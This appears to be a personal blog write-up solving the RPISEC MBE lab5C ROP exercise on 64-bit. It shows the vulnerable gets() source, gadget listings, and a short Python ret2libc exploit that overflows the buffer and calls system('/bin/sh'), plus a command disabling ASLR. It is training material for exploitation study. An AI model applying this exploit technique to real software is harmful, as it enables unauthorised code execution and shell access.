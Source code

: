```yaml
---
layout: post
title: ROP lab RPISEC
date: 2024-01-12 
description: rpisec lab5C
categories: rpisec bin-exp
---
```


### Solving lab5C "03/13 | --[ ROP Lab" (https://github.com/RPISEC/MBE/blob/master/src/lab05/lab5C.c)


### This lab is related to the exploration of DEP/NX.

First I'll talk about the problem I had with compiling the binary. This lab is made for 32-bit architecture and the exploit is also 32-bit based. And my idea was to do it in 64. So, due to some problems with address randomization, I had to add the ``` -no-pie``` flag to compile it. It was compiled like this:

```gcc lab5C.c -o lab5C -fno-stack-protector -no-pie```


As the exploration learned in the slides is for 32 bits, I had to use a technique aimed at 64 bits. I did a step by step of this technique here: https://geleiaa.github.io/blog/2024/bypass_NX/

And now let's see how it was applied in this binary.


Let's look at the source code to see what the binary does.

```c
#include <stdlib.h>
#include <stdio.h>

/* gcc -fno-stack-protector -o lab5C lab5C.c */

char global_str[128];

/* reads a string, copies it to a global */
void copytoglobal()
{
    char buffer[128] = {0};
    gets(buffer);
    memcpy(global_str, buffer, 128);
}

int main()
{
    char buffer[128] = {0};

    printf("I included libc for you...\n"\
           "Can you ROP to system()?\n");

    copytoglobal();

    return EXIT_SUCCESS;
}

```

It looks like simple code. The main prints some text. And the ``` copytoglobal() ``` function does exactly that, it takes what comes from stdin and passes it to the global variable.

Running the binary:


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/runbinrop.png)



### To begin the exploration, let's see if we can overflow this buffer that stores the input.

Arriving at the RET of the ```copytoglobal()``` function we see that it was overwritten after 136 bytes of our pattern:


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/retoverwriterop.png)



Now that we know how to overwrite the return address of the ```copytoglobal()``` function, let's go with the ROP + ret2libc techniques.


### ROP + ret2libc

For this exploration we will need three things: 1 - address of the ```system()``` function, 2 - an argument to system(), 3 - gadgets that put this argument in the right place.


First the Gadgets. We need a "pop rdi" so that the system() function argument is passed to the RDI register and then passed to the function.

```sh
$ ROPgadget --binary lab5C --ropchain | grep pop
0x000000000040113b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401136 : mov byte ptr [rip + 0x2f03], 1 ; pop rbp ; ret
0x00000000004013ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013b0 : pop r14 ; pop r15 ; ret
0x00000000004013b2 : pop r15 ; ret
0x00000000004013ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013af : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040113d : pop rbp ; ret
0x00000000004013b3 : pop rdi ; ret  <===== this addr
0x00000000004013b1 : pop rsi ; pop r15 ; ret
0x00000000004013ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```


Now let's get the address of the system function:


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/systemaddr.png)



Lastly, the address of the string "/bin/sh" that we will use as an argument for system()


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/binshaddr.png)



### Having all the addresses we will put them in the exploit

```py
import sys
import struct

gadget = struct.pack("<Q", 0x00000000004013b3)

binsh_addr = struct.pack("<Q", 0x7ffff7f7f152)

sys_addr = struct.pack("<Q", 0x7ffff7e2fe50)

sys.stdout.buffer.write(b'A'*136 + gadget + binsh_addr + sys_addr)
```


### Now let's run it in GDB and see if it works.


We can see the "pop rdi" gadget followed by "/bin/sh" and system on the stack:


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/exprop1.png)



After pop rdi is executed we see that "/bin/sh" was passed to the register:


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/exprop2.png)



And after the system call, GDB finishes executing the binary showing that a process has been started:


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/exprop3.png)



It seems like everything is fine, the exploit worked in the context of GDB, now let's see outside.

note: It is worth remembering that the machine's ASLR must be disabled otherwise the exploit will not work. To disable it: ```$ sudo sysctl kernel.randomize_va_space=0```


### pwn!


![a](https://github.com/geleiaa/blog-repo/blob/main/imgs/exprop4.png)



Remembering that the idea of this laboratory was to be done in 32-bit architecture but I decided to do it in 64-bit because it was more current. In 32 bits, it changes the way exploration is done, passing system() function arguments through the stack and not through registers. The rest is basically the same.
